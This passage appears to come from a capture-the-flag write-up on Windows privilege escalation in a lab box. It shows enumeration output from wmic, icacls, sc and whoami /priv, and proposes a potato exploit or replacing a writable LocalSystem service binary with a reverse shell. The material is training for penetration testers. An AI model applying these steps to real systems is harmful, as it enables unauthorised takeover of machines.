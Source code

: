 User `tolis`' has `SeImpersonatePrivilege`. Maybe we can use **potato exploit** to escalate our privilege to SYSTEM?

**Unquoted service path:**
```shell
C:\\ColdFusion8\\runtime\\bin>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
ColdFusion 8 .NET Service                               ColdFusion 8 .NET Service        C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe                                                                        Auto       
```

> Note: Unquoted service path is a vulnerability that the path to the service binary is not wrapped in quotes and there are spaces in the path.

Hmm... This service "ColdFusion 8 .NET Service" looks kinda interesting...

- **Check `CF8DotNetsvc.exe` permission:**
```shell
C:\\ColdFusion8\\runtime\\bin>icacls C:\\ColdFusion8\\jnbridge\\CF8DotNetsvc.exe
C:\\ColdFusion8\\jnbridge\\CF8DotNetsvc.exe ARCTIC\\tolis:(I)(F)
                                         NT AUTHORITY\\SYSTEM:(I)(F)
                                         BUILTIN\\Administrators:(I)(F)
                                         BUILTIN\\Users:(I)(RX)
```

Ah ha, **User `tolis` has full control!** Which means we can overwrite `CF8DotNetsvc.exe`, and replace it with a reverse shell.

- **Check if `tolis` is able to restart service/machine:**

```shell
C:\\ColdFusion8\\runtime\\bin>sc stop "ColdFusion 8 .NET Service"
[SC] OpenService FAILED 5:

Access is denied.


C:\\ColdFusion8\\runtime\\bin>sc qc "ColdFusion 8 .NET Service"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: ColdFusion 8 .NET Service
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\\ColdFusion8\\jnbridge\\CF8DotNetsvc.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : ColdFusion 8 .NET Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```shell
C:\\ColdFusion8\\runtime\\bin>whoami /priv
[...]
Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
